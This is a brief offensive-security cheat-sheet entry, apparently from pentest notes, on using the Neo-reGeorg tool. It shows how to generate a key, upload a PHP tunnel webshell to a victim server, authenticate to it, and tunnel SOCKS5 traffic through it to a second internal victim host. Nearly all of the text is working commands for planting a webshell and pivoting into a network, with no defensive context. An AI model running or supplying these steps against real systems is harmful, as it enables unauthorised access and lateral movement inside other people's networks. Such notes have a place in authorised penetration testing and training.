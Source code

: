 ## Tools: Neo-reGeorg https://github.com/L-codes/Neo-reGeorg

#### 1) Generate key

    python3 neoreg.py generate -k KEY 

#### 2) Upload the PHP file to SERVER1

#### 3) Authenticate to the webshell with your key

    python3 neoreg.py -k KEY -u http://VICTIM_SERVER1/uploader/files/tunnel.php

#### 4) HTTP Tunneling done

    curl --socks5 127.0.0.1:1080 http://VICTIM_SERVER2:80 

## TIP" We can also use proxychains or FoxyProxy
